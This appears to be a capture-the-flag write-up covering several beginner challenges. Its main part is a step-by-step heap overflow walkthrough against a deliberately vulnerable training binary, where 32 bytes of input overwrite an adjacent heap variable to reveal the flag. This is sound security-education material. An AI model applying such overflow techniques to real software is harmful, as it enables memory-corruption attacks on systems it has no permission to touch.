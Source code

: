 # Verify

This challenge provides very files and a script to decrypt your content. I made a shell script to go through all the files.

```shell
$ for file in files/*; do ./decript.sh $file; done
```

# Scan Surprise

This challenges provides an image with a qrcode, i used zbarimg to decode and see the string

```shell
$ zbarimg flag.png
```

# Binary Search

This challenge gave us a shell script that chose a random number between 1 and 1000 and gave us 10 chances to guess it. I made a Python script to find the number using binary search.

You can access the script [here](./binarySearch.py)

# heap 0

This challenge provides a C code and your executable, the first step was to analyze the C code and understand the execution order. Following I will try discribe the code:

### Step 1
To start I looked for the 'main' function in the file and saw what it does.
The function runs in a 'while' loop that continuously waits for user input. When you enter an option, it triggers the corresponding case in the switch statement. In the option two is possible write buffer and overwrite the variable 'input_data'

![alt text](img/image.png)


#### Step 2
In the function 'write_buffer' you can overwrite the variable 'input_data'. Knowing that, it's possible proceed. Other important function is the 'print_heap' because she prints the memory address and your value, then we can to know when the address overwrote. For example, if put any 'A' chars as input:
```
Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5c0dd75c76b0  ->   pico
+-------------+----------------+
[*]   0x5c0dd75c76d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5c0dd75c76b0  ->   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
+-------------+----------------+
[*]   0x5c0dd75c76d0  ->   AAAAAAAAAAAAAAAAAAAAA
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 
```

### Step 3
The function 'check_win' show the flag if the value is diferent of 'bico'. For this, we are to calculate the quantity of chars to arrive in the 'safe_var' 
0x5c0dd75c76d0 - 0x5c0dd75c76b0 = 0x20 = 32

### Step 4/Resume
With 32 chars it's possible to overwrite safe_var, so follow this order:
```
./chall 

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x61deb3d1f6b0  ->   pico
+-------------+----------------+
[*]   0x61deb3d1f6d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
```
